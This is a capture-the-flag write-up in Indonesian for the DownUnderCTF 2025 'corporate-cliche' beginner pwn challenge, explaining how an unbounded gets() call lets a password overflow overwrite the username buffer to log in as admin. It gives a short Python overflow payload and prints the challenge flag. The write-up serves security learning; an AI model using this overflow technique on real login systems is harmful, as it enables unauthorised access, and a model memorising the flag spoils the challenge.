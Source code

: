 # corporate-cliche – Pwn – Beginner

**Remote:**  
nc chal.2025.ductf.net 30000

---

## Deskripsi

> It's time to really **push the envelope** and go **above and beyond!** We've got a new challenge for you. Can you find a way to get into our email server?

Kita diberikan sebuah source code program C yang meniru sistem login email. Tujuan dari challenge ini adalah mendapatkan akses shell dengan menyamar sebagai admin, meskipun terdapat proteksi yang melarang login langsung sebagai user admin.

---

## Analisis Source Code
1. Struktur Login

```
const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};
```
Terdapat dua akun:
- admin dengan password emoji 🇦🇩🇲🇮🇳
- guest dengan password "guest"

2. Cek Username
```
if (strcmp(username, "admin") == 0) {
    printf("-> Admin login is disabled. Access denied.\n");
    exit(0);
}
```
Jika kita mencoba login dengan username admin, program langsung menolak akses dan keluar.
3. Input Password Rentan
```
printf("Enter your password: ");
gets(password);
```
Penggunaan fungsi gets() membuat aplikasi rentan terhadap buffer overflow, karena tidak ada batasan panjang input.
4. Susunan Buffer
```
char password[32];
char username[32];
```
Variabel password berada di stack sebelum username. Karena gets() menulis ke password, kita bisa melakukan overflow hingga menimpa nilai username.

---

## Teknik Eksploitasi
### Tujuan
Melewati cek strcmp(username, "admin") == 0) dengan cara menulis "admin" ke dalam username melalui overflow dari password.
### Langkah:
1. Saat input username, gunakan "guest" agar melewati validasi awal.
2. Kirim password dalam format:
   - Password admin emoji (🇦🇩🇲🇮🇳, encoded dalam UTF-8 = 16 byte)
   - Tambahkan null byte (\x00) hingga mencapai 32 byte
   - Lanjutkan dengan string "admin" dan \x00 untuk menimpa username
### Payload:
```python
admin_pw = "🇦🇩🇲🇮🇳".encode('utf-8')   
payload = admin_pw + b"\x00" * (32 - len(admin_pw)) 
payload += b"admin\x00"
```

## Eksploitasi dengan Python (pwntools)
[exploit.py](./exploit.py)

## Flag
Setelah berhasil mendapatkan shell, baca file flag.txt

> DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}

